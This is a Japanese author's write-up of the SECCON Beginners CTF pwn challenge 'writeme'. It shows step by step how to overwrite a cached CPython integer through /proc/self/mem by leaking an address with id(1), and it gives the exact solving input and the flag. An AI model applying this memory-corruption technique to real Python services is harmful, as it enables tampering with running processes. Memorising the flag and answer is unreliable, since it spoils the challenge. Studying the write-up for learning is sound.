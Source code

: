 # writeme

## 問題文
writeme.  
(A little pwn)  
`nc writeme.quals.beginners.seccon.jp 27182`  
[writeme.tar.gz](files/writeme.tar.gz) 6fed82490d18ce779247e47a6d89efb2e52e753c  

## 難易度
**Medium**  

## 作問にあたって
CPythonの整数がキャッシュされることを知って思いついた問題です。  
/proc/self/memを書き換えるのはreadmeリスペクト。  
writeme.は実は正規表現でwrite`mem`を示しています(白目)。  
思考の流れが断絶していることもなく、作問者の中でも解けている人がいたので難易度は許容範囲だと思っています。  

## 解法
ソースを読むと、存在するファイルに文字列`Hack`を挿入できるサービスが動いている。  
最初にChanceと称するevalがあるが`42=99`などはできないので後々使うことを考えておく。  
方針としてflagファイルに文字列を挿入し読み取る、もしくは`42>=99`をTrueとすることを目指す。  
flagファイルに文字列を挿入するのは、ファイル名がチェックされており難しそうであるので後者のアプローチを考える。  
任意のファイルに文字列挿入ができるので、`/proc/self/mem`を書き換え可能であり、場所は不明だが数値42もしくは99のオブジェクトの中身を破壊してやると`42>=99`がTrueとなると予測できる。  
ここでCPythonは32バイトずつ数値オブジェクトを順にキャッシュしていることを思い出す。  
Chanceの5文字のevalで行えることはidくらいしかないことから、それを用いることを思考の始まりとしても上記のアプローチに落ち着くと思われる。  
id(1)により無事に数値1のアドレスがリークできるので、id(1)+41*32で書き換える先のid(42)を求める。  
32バイトは以下のように求めることができる。  
```python
>>> int(id(2))-int(id(1))
32
>>> (int(id(42))-int(id(1)))/41
32.0
```
ちなみに大きいものはそうでもない。  
```python
>>> (int(id(124))-int(id(123)))
32
>>> (int(id(1235))-int(id(1234)))
-67072224
```
seekで先ほどリークしたアドレス分スキップすることで数値42を改造できる。  
```python
>>> fd = open("/proc/self/mem", "rb")
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00*\x00\x00\x00\x00\x00\x00\x00'
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00+\x00\x00\x00\x00\x00\x00\x00'
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00,\x00\x00\x00\x00\x00\x00\x00'
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00-\x00\x00\x00\x00\x00\x00\x00'
>>> ord("*")
42
>>> ord("+")
43
>>> ord(",")
44
>>> ord("-")
45
```
どうやら25バイト目に数値本体が入っているようだ。  
ここを破壊してやれば`42>=99`をTrueにすることができそうだ。  
```python
>>> fd = open("/proc/self/mem", "rb+")
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00*\x00\x00\x00\x00\x00\x00\x00'
>>> fd.seek(int(id(42))+24)
10915832
>>> fd.write(b"A")
1
>>> fd.flush()
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00A\x00\x00\x00\x00\x00\x00\x00'
>>> 42
65
>>> chr(65)
'A'
```
+24seekすればよい。  
挿入される文字列が`Hack`であるため、99より大きくなる。  
```python
>>> fd = open("/proc/self/mem", "rb+")
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00*\x00\x00\x00\x00\x00\x00\x00'
>>> fd.seek(int(id(42))+24)
10915832
>>> fd.write(b"Hack")
4
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00Hack\x00\x00\x00\x00'
>>> fd.flush()
>>> 42
1801675080
>>> hex(1801675080)
'0x6b636148'
>>> hex(ord("H"))
'0x48'
>>> hex(ord("a"))
'0x61'
>>> hex(ord("c"))
'0x63'
>>> hex(ord("k"))
'0x6b'
>>> 42>=99
True
```
よって解法は以下の入力になる。  
```text
id(1)
/proc/self/mem
id(1)の結果 + 41*32 + 24
```
solverを書いてやればよい。  
```bash
$ python solver.py
140601518577968
140601518579304
ctf4b{r36ul4r_3xpr35510n_f0r_4ny_51n6l3_ch4r4c73r}
```

## ctf4b{r36ul4r_3xpr35510n_f0r_4ny_51n6l3_ch4r4c73r}